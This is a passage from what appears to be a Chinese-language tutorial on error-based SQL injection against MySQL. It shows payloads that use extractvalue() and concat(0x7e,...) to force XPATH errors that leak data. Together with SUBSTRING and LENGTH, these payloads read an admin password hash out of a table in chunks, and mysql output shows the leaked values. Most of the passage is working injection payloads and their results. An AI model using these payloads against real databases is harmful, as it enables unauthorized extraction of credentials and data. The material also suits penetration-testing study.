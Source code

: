 

方法1-sql: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,substr(password,1,10),0x7e) FROM test.tdb_admin limit 0,1)))



方法1-sql讲解: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,substr(字段名称,开始读取的位置,指定显示的长度),0x7e) FROM 库名.表名 limit 0,1)))



```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,substr(password,1,10),0x7e) FROM test.tdb_admin limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~~7fef617146~'
```



# 0x02 SUBSTRING 函数+LENGTH 函数



用法:

substring(str, pos)，即: substring(被截取字符串， 从第几位开始截取)

substring(str, pos, length)

即: substring(被截取字符串，从第几位开始截取，截取长度)



使用这个函数的时候最好是搭配 length 函数一起使用,先获取数据长度，然后在通过偏移获取数据



```plain
# 测试表数据:
mysql> select * from tdb_admin;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```



先获取某字段的数据长度: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,length(password),0x7e) FROM test.tdb_admin limit 0,1)))



```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,length(password),0x7e) FROM test.tdb_admin limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~~32~'
```



获取前30位的数据: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,1),0x7e) FROM test.tdb_admin limit 0,1)))
